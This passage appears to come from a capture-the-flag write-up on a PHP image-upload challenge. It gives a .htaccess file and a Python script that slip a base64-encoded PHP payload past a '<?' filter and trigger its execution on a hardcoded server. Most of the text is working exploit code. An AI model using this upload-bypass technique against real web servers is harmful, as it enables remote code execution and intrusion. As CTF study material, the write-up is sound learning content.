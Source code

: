 ### Checkpoint 5 : PHP

It was checking if "&lt;?" is in the uploaded file, so we need encode the shell in base64

{% code title=".htaccess" %}
```text
AddType application/x-httpd-php .corb3nik php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.corb3nik"Upload shell
```
{% endcode %}

&lt;3 Credits go all to Corb3nik

{% code title="up\_shell.py" %}
```python
#!/usr/bin/env python3

import requests
import base64

VALID_WBMP = b"\x00\x00\x8a\x39\x8a\x39\x00\x00\x00\x00\x00\x0a\x0a"
URL = "http://35.246.234.136/"
RANDOM_DIRECTORY = "cd64786e8e27882608c3520dd83a27babbcdbb08"

COOKIES = {
    "PHPSESSID" : ""
}

def upload_content(name, content):

    data = {
        "image" : (name, content, 'image/png'),
        "upload" : (None, "Submit Query", None)
    }

    response = requests.post(URL, files=data, cookies=COOKIES)

HT_ACCESS = VALID_WBMP + b"""
AddType application/x-httpd-php .corb3nik
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.corb3nik"
"""
TARGET_FILE = VALID_WBMP + b"AA" + base64.b64encode(b"<?php echo works; ?>")

upload_content("..htaccess", HT_ACCESS)
upload_content("shell.corb3nik", TARGET_FILE)
upload_content("trigger.corb3nik", VALID_WBMP)

response = requests.get(URL + "/images/" + RANDOM_DIRECTORY + "/trigger.corb3nik")
print(response.text)
```
{% endcode %}

## It's not done yet
